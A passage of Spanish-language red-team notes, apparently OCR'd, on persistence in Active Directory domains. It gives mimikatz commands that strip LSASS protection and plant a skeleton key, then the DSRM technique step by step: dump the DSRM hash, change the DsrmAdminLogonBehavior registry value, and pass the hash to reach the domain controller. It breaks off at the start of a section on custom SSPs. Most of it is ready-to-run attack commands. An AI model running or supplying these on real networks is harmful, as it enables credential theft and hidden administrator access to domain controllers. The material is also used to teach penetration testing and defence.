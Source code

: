 mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # misc::skeleton
mimikatz # !-

Esto puede ser muy ruidoso en los logs.

**Domain Persistence – DSRM**

- DSRM es el modo de restauración de servicios de directorio.
- Hay un administrador local en cada DC llamado "Administrador" cuya contraseña es la contraseña DSRM.
- La contraseña de DSRM (SafeModePassword) se guarda cuando un servidor se promueve a controlador de dominio y rara vez se cambia.
- Después de alterar la configuración en el DC, es posible pasar el hash NTLM de este usuario para acceder al DC.

Dumpear DSRM (necesita DA priv)

`Invoke-Mimikatz -Command '"token::elevate" 
"lsadump::sam"' -Computername us-dc`

Comparar los hashes de administrador:

`Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -
Computername us-dc`

El primero es el DSRM administrador local.

Dado que es el administrador 'local' del DC, podemos pasar el hash para autenticar.

Pero, el comportamiento de inicio de sesión para la cuenta DSRM debe cambiarse antes de que podamos usar su hash

`Enter-PSSession -Computername us-dc`

`New-ItemProperty
"HKLM:\System\CurrentControlSet\Control\Lsa\" -Name
"DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD`

Usamos este comando para hacer un pass the hash:

`Invoke-Mimikatz -Command '"sekurlsa::pth /domain:us-dc /user:Administrator /ntlm:917ecdd1b4287f7051542d0241900cf0 
/run:powershell.exe"'`

`ls \\us-dc\C$`

Para usar PSRemoting, tenemos que forzar una autenticación NTLM:

`Enter-PSSession -ComputerName us-dc -Authentication
Negotiate`

**Domain Persistence – Custom SSP**

Un proveedor de soporte de seguridad (SSP) es una DLL que proporciona formas para que una aplicación obtenga una conexión autenticada. Algunos paquetes SSP de Microsoft son:

NTLM
